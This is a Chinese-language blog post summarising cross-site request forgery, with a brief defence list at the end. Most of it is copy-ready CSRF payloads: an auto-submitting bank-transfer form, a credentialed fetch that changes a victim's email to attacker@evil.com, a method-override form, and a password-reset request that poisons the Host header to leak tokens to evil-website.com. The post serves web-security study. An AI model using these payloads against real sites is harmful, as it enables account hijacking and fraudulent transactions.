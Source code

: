```yaml
---
layout: mypost
title: CSRF总结
categories: [Web]
extMath: true
---
```


# CSRF总结

## 说明

**CSRF**：攻击者诱骗一个**已登录目标网站的用户**，在**不知情**的情况下，访问一个恶意链接或页面，从而以该用户的身份**执行了目标网站的非预期操作**。

**关键要素：**

1. **用户已登录**并具有有效的会话（Session/Cookie）。
2. **网站完全依赖会话Cookie**来识别用户身份，没有其他机制（如Token）来验证请求的意图。
3. **攻击者能预测**网站操作所需的请求参数（URL、表单字段）。
4. **用户被动地触发**了请求（如点击链接、加载图片、提交表单）。

白话：就是字面理解客户端请求伪造即可，伪造一个恶意请求通过诱导以其他用户的身份发给服务器。

## 利用

### 常见情况

1. GET
    
    诱导用户点击一个恶意的URL，比如点赞，修改信息什么的，这种方式主要是用与参数GET传递
    

```jsx
https://vulnerable-website.com/email/change?email=attacker@evil.com

也可以嵌套在第三方网站的页面JS里：
<!-- 在一个论坛帖子或邮件中嵌入 -->
<img src="https://vulnerable-website.com/email/change?email=attacker@evil.com" width="0" height="0" border="0">
```

1. POST
    
    大多数重要操作（如转账、改密码）都使用`POST`请求。这需要构造一个自动提交的表单。
    这种主要操作是模仿目标网站的目标功能的运行流程创建一个恶意的表单，将这个页面置于可控web上，诱导用户访问从而达成攻击目的（burpsuite可以根据抓到的包快捷生成CSRF的恶意payload）
    

```jsx
<!-- 恶意页面 evil.com/csrf.html -->
<body onload="document.forms[0].submit()">
  <form action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="to" value="ATTACKER_ACCOUNT">
    <input type="hidden" name="amount" value="10000">
    <input type="hidden" name="currency" value="USD">
  </form>
</body>
```

### JSON CSRF

这种就是POST但是数据通过JSON发送，但是浏览器默认的`<form>`无法直接发送`application/json`内容类型

1. GET
    
    类似于常见情况
    
    payload：
    

```jsx
https://victim.com/api/update?json={"role":"admin"}
```

1. POST
    
    需要结合**CORS和Fetch API构造`<script>`标签**
    
    ```jsx
    <script>
    fetch('https://api.vulnerable-app.com/profile/update', {
        method: 'POST',
        credentials: 'include', // 关键！携带目标网站的Cookie
        headers: {
            'Content-Type': 'application/json', // 正确的JSON Content-Type
        },
        body: JSON.stringify({ "email": "attacker@evil.com" }) // JSON数据
    });
    </script>
    ```
    

### 基于XML的CSRF (XSRF)

应用接受XML格式（如SOAP API），可以构造一个XML payload并通过表单提交。

```jsx
<form action="https://vulnerable.com/soap/endpoint" method="POST">
  <input type="hidden" name="xml" value='<?xml version="1.0"?><soap:Envelope>...<email>attacker@evil.com</email>...</soap:Envelope>'>
</form>
```

### 常见组合拳

1. CSRF加XSS
    
    xss设置HTTP only无法返回cookie时，通过xss返回目标的token，借助这个token构造恶意的CSRF表单进行恶意操作
    
2. CSRF密码重置
    1. 先发起一个**针对受害者账户**的密码重置请求。
    2. 在请求中，篡改`Host`头或使用`X-Forwarded-Host`头，将重置链接指向攻击者控制的服务器。
        
        ```
        POST /forgot-password HTTP/1.1
        Host: vulnerable-website.com
        ...
        X-Forwarded-Host: evil-website.com
        
        email=victim@normal-user.com
        ```
        
    3. 应用生成的重置链接将是：`https://evil-website.com/reset?token=RESET_TOKEN`
    4. 受害者会收到一封合法的重置邮件，但里面的链接指向恶意站点。
    5. 攻击者在`evil-website.com`上部署一个页面，记录下URL中的`token`参数，然后重定向到真实的重置页面。
    6. 攻击者使用这个token重置受害者的密码，完成账户劫持。

## 绕过

### token泄露

通过xss等获取到token在进行CSRF攻击

### **Token绑定与可靠性**

1. 如果Token只是简单地生成并验证，但没有与特定用户的会话（Session）关联，攻击者可以先访问表单页面获取自己的有效Token，然后在构造给受害者的CSRF Payload中使用这个Token。服务器验证Token有效，请求通过。
2. 如果Token的生成算法很弱（如基于时间戳），攻击者有可能预测出受害者的Token。或者Token没有一次性使用的限制，可以被重复利用（重放攻击）。
3. HTTP方法转换
    
    某些框架允许通过参数（如`_method=PUT`）来转换HTTP方法。如果应用在`POST`请求中验证Token，但对转换后的`PUT`请求不做验证，则可能被绕过。
    
    ```jsx
    <form action="https://vulnerable-site.com/change-email" method="POST">
        <input type="hidden" name="_method" value="PUT"> <!-- 转换为PUT请求 -->
        <input type="hidden" name="email" value="attacker@evil.com">
        <!-- 可能不需要Token，或者需要尝试预测 -->
    </form>
    ```
    

### 绕过Origin/Referer头验证

1. 缺失或伪造Referer头
2. 利用HTTPS -> HTTP降级
3. 利用域名后缀欺骗或子域名劫持

## 防御

1. 同步器token模式
    
    为每个会话生成可靠的随机的token
    
2. SameSite Cookie属性
    
    限制跨站请求时是否携带 Cookie，从浏览器层面降低甚至根本解决了 CSRF 风险
    
3. 验证HTTP Referer/Origin头
4. 二次验证
5. API使用JSON格式